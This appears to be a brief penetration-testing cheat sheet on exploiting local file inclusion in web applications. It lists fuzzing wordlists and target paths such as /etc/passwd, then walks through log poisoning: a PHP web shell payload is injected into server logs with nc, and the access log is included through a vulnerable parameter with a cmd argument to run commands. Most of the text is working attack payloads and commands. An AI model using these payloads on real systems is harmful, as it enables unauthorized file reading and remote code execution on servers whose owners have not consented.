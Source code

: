 #### Wordlists

- /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
- /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

#### PoC

- linux

```
/etc/passwd
```

- windows 

```
c:\windows\system32\drivers\etc\hosts
```

#### Log Poisoning 

First, we poison the logs by connecting using nc and sending the payload.
```
nc -nv $IP 80
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

Then, we trigger the LFI and submit the command we want executed to the cmd parameter.
```
https://$IP/vuln.php?file=C:\xampp\apache\logs\access.log&cmd=whoami
```

#### Proc

- https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/

